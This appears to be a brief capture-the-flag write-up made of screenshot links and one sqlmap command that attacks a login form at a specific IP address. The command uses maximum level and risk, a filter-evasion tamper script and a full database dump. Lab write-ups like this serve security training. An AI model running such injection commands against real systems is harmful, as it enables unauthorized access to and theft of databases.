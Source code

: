 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1cd983f3-c653-41a8-8d8b-5d49150b4814)

```
sqlmap -u "http://62.173.140.174:28780/login.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="username=josh&password=josh"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a790e58f-bb72-4d41-b696-8cf9bf7a49a6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/97276906-bab9-41cb-be01-2b8c74af6ffe)
